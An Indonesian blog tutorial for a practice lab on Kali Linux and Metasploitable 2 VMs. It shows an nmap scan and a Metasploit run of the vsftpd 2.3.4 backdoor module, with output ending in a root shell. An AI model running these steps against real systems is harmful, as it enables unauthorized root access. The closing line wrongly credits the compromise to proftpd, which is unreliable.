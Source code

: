 ```yaml
---
title: "Exploit Celah Keamanan Vsftpd di Linux"
date: 2018-11-16T06:05:36+07:00
draft: false
---
```

## Persiapan



1.  Komputer/Laptop dengan memori minimal 2GB
1.  Metasploit VM Linux
1.  Kali Linux


### Import VM Kali linux

Untuk import file ova kali linux, masuk ke aplikasi virtualbox - klik file - import appliance - pilih file OVA yang akan diimport. Caranya seperti gambar berikut:

Selanjutnya ikutin saja langkah-langkahnya. Setelah berhasil diimport matikan USB mode VM melalui preferences.


### Import VM Metasploit 2

Download terlebih dahulu VM Linux metasploit 2. Untuk membuat VM baru, klik new - isi nama VM - pilih lokasi hardisk (pilih file VMDK yang akan digunakan). Setelah kedua VM berhasil dibuat, selanjutnya anda perlu melakukan konfigurasi network.


#### Konfigurasi jaringan

Pada konfigurasi virtualbox, kedua VM dibuat mode network bridge - pilih nama interface ethernet anda. Bisa dilihat seperti gambar dibawah ini:

Setelah selesai konfigurasi, anda dapat menjalankan kedua VM dan setelah masuk catatlah IP dari kedua VM tersebut. Gunakan perintah **ifconfig** untuk melihat IP dari VM tersebut. Dalam model praktik diatas IP VM kali linux adalah **192.168.1.7** dan IP VM Linux Metasploit (MSF) adalah **192.168.1.8**. _Alamat IP address bisa berbeda setiap mesin, jadi sebaiknya anda sesuaikan dengan kondisi konfigurasi jaringan anda_.


## Praktik

Dalam praktik ini akan dilakukan simulasi untuk exploitasi kelemahan dari layanan yang memanfaatkan protokol FTP.


### Scanning celah pada linux MSF

Proses scanning digunakan untuk mencari informasi terkait layanan apa saja yang terbuka port nya dan memiliki celah keamanan. 


```
root@kali:~# nmap -sC -sT -sV -O -p 21,2121 -T5 192.168.1.8

Starting Nmap 7.60 ( https://nmap.org ) at 2018-11-11 08:48 EST
Nmap scan report for 192.168.1.8 (192.168.1.8)
Host is up (0.00036s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.1.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
2121/tcp open  ftp     ProFTPD 1.3.1
MAC Address: 08:00:27:20:AA:71 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: OS: Unix

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.04 seconds
```


Jika diamati dari hasil tersebut, ada 2 layanan ftp yang berjalan. Vsftp dan proftpd, keduanya berjalan di port yang berbeda yaitu 21 dan 2121. 

Selanjutnya, jalankan metaspoit console di Kali Linux.


### Exploit vsftp

Jika anda ingin mencari exploit untuk aplikasi vsftp bisa menggunakan perintah berikut:


```
msf > search vsftp

Matching Modules
================

   Name                                  Disclosure Date  Rank       Description
   ----                                  ---------------  ----       -----------
   exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  VSFTPD v2.3.4 Backdoor Command Execution
```


Selanjutnya menggunakan exploit tersebut dengan menggunakan perintah `use <nama exploit>`. 

Contoh: 


```
msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(vsftpd_234_backdoor) > 
```


Kemudian jalankan` show option` untuk melihat opsi yang tersedia. RHOST adalah alamat ip target, RPORT adalah alamat port target. Selanjutnya untuk  Menentukan alamat ip target (sesuaikan ip target anda), gunakan perintah berikut:


```
msf exploit(vsftpd_234_backdoor) > set rhost 192.168.1.8
rhost => 192.168.1.8
msf exploit(vsftpd_234_backdoor) > 
```


Selanjutnya untuk melakukan proses exploitasi celah keamanan terhadap target, anda bisa gunakan perintah :


```
msf exploit(vsftpd_234_backdoor) > exploit

[*] 192.168.1.8:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.1.8:21 - USER: 331 Please specify the password.
[+] 192.168.1.8:21 - Backdoor service has been spawned, handling...
[+] 192.168.1.8:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.1.7:38653 -> 192.168.1.8:6200) at 2018-11-11 09:39:26 -0500

whoami
root
```


Setelah anda mendapatkan command shell, anda dapat memasukkan perintah sistem linux, pada contoh diatas saya menggunakan perintah "whoami". Dalam tahap ini sebenarnya anda sudah berhasil masuk ke sistem linux MSF dengan memanfaatkan celah keamanan / bugs pada proftpd.



